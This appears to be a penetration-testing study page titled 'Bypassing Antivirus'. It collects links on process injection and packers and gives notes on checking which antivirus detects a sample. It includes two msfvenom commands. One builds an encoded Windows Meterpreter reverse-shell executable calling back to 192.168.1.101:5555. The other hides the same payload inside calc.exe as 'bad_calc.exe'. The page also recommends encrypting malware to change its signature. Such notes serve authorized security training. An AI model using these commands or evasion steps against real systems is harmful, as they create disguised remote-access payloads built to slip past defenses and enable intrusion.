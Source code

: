 # Bypassing Antivirus

## Additional Resources

* [https://sushant747.gitbooks.io/total-oscp-guide/content/bypassing\_antivirus.html](https://sushant747.gitbooks.io/total-oscp-guide/content/bypassing\_antivirus.html)
* [https://www.shellterproject.com/](https://www.shellterproject.com/)
* [https://upx.github.io/](https://upx.github.io/)
* [https://enigmaprotector.com/](https://enigmaprotector.com/)
* [https://www.microsoft.com/security/blog/2018/03/01/finfisher-exposed-a-researchers-tale-of-defeating-traps-tricks-and-complex-virtual-machines/](https://www.microsoft.com/security/blog/2018/03/01/finfisher-exposed-a-researchers-tale-of-defeating-traps-tricks-and-complex-virtual-machines/)
* [https://en.wikipedia.org/wiki/Dead\_code](https://en.wikipedia.org/wiki/Dead\_code)
* [https://en.wikipedia.org/wiki/Executable\_compression](https://en.wikipedia.org/wiki/Executable\_compression)
* [https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process](https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process)
* [https://blog.f-secure.com/memory-injection-like-a-boss/](https://blog.f-secure.com/memory-injection-like-a-boss/)
* [https://en.wikipedia.org/wiki/Windows\_API](https://en.wikipedia.org/wiki/Windows\_API)
* [https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)
* [https://en.wikipedia.org/wiki/Handle\_(computing)](https://en.wikipedia.org/wiki/Handle\_\(computing\))
* [https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)
* [https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)
* [https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)
* [https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)
* [https://www.andreafortuna.org/2017/12/08/what-is-reflective-dll-injection-and-how-can-be-detected/](https://www.andreafortuna.org/2017/12/08/what-is-reflective-dll-injection-and-how-can-be-detected/)
* [https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations](https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations)

## How to Find which AV Detects Malware

* find out which AV the target uses.
* upload malware to [virtustotal.com](http://virtustotal.com/) and see if the specific AV finds it

## Encoding

* can be done with msfvenom and metasploit
* notice how we set the -e flag here, and then use the shikata\_ga\_nai encoding
* not that effective since antivirus-vendors have access too

### Example

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e
x86/shikata_ga_nai -i 9 -o meterpreter_encoded.exe
```

## Embed in Non-Malicious File

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e
x86/shikata_ga_nai -i 9 -x calc.exe -o bad_calc.exe
```

## Encrypting the malware

* encrypt the malware and radically change the signature
* Hyperion is a great tool for malware encryption

## Tools

* [https://www.shellterproject.com/](https://www.shellterproject.com/)
* [https://enigmaprotector.com/](https://enigmaprotector.com/)
